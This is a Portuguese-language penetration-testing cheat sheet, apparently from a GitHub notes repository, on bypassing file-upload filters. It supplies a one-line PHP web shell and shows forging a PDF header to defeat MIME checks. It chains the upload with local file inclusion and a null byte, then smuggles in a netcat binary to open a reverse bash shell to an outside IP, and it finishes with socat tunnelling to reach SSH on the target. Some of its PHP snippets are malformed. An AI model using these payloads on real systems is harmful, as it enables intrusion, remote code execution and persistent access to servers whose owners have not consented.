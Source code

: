 # Bypass File Upload

Crie um arquivo shell.php:
```php
<?php system($_GET['cmd']); ?>
```

Envie em algum formulário o arquivo malicioso.
Caso o arquivo seja barrado na extensão, tente alterar a extensão do arquivo e teste novamente.

Caso a aplicação faça a verificação via cabeçalho do arquivo será necessário efetuar algumas alterações no arquivo PHP.

Código de verificação de arquivo simples:
```php
<? php
echo mime_content_type('arquivo.php') . "\n";
?>
```
```bash
php arquivo.php
```

Verificando o header do arquivo:
head -n1 arquivo.pdf
Output: %PDF-1.3

Alterando header da shell.php:
```php
%PDF-1.3
<? php
echo mime_content_type('arquivo.php') . "\n";
?>
```

Tente subir o código maliciosa para a aplicação novamente e use o LFI/RFI:
rh.businesscorp.com.br/index.php?page=uploads/shell.pdf%00&cmd=uname -a

## Fazendo Upload do NC

Criando arquivo nc com bypass:
echo "%PDF-1.3" > header.pdf
cat header /bin/nc > nc.pdf

Envie o arquivo via formulário vulnerável.

Utilizando o NC:
rh.businesscorp.com.br/index.php?page=uploads/shell.pdf%00&cmd=tail -n +2 uploads/nc.pdf > nc
rh.businesscorp.com.br/index.php?page=uploads/shell.pdf%00&cmd=chmod 777 nc
rh.businesscorp.com.br/index.php?page=uploads/shell.pdf%00&cmd=nc 192.168.0.101 443 -e /bin/bash

## Utilizando SOCAT

O SOCAT é utilizado para efetuar o tunelamento de portas filtradas.

#### Uso no servidor:
socat TCP4:NOSSOIP:8443 TCP4:127.0.0.1:22

#### Uso local:
socat TCP4-LISTEN:8443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr

#### Acessando o tunelamento:
ssh root@127.0.0.1 -p 2222

Ou seja, o caminho está sendo feito da seguinte forma:
127.0.0.1:2222 ==> 127.0.0.1:8443 <==> 192.168.0.100:8443 ==> 192.168.0.100:22
**Onde o IP 192.168.0.100 é o alvo.**

